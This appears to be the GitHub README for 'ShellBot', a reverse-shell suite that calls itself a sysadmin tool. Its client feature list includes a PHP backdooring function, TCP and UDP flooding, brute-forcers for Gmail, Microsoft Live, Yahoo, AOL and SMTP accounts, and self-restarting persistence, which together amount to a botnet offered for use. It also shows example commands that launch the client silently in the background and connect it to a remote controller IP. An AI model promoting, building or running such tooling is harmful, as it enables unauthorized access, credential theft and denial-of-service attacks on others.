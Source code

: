 # ShellBot

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_shield)

##### This project may be deprecated soon!

I am currently coding another reverse shell utility based on the principles of this project, and will replace this utility when completed. Find out more and contribute to the developement [here](https://github.com/sayak-brm/ShellBot2).

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed
by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell
to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal
setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a
connection is achieved. All errors are handled internally and in case of a
crash, the program automatically restarts.

---

## Features:

### Server:

1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best
   security, but at-least it is better than nothing. Will be improved on in
   future revisions.
1. Kicks the Controller after 5 mins. (As the Server only accepts 1 controller
   at a time). _TODO: Make it 5 minutes after inactivity._

### Client:

1. Infected PHP Backdooring Function. *(Linux Only)*
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer. If found, the password will be saved as
   "password.txt" on the client.
1. OTA Updating.
1. Hardened Shell: Handles No Output, Wrong, Interactive and Infinite commands
   will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller.

### Controller:

1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other
interactive shell, it is advised to start the client in another process. This
can be done in Linux with `nohup`.

## Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```

## License

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_large)
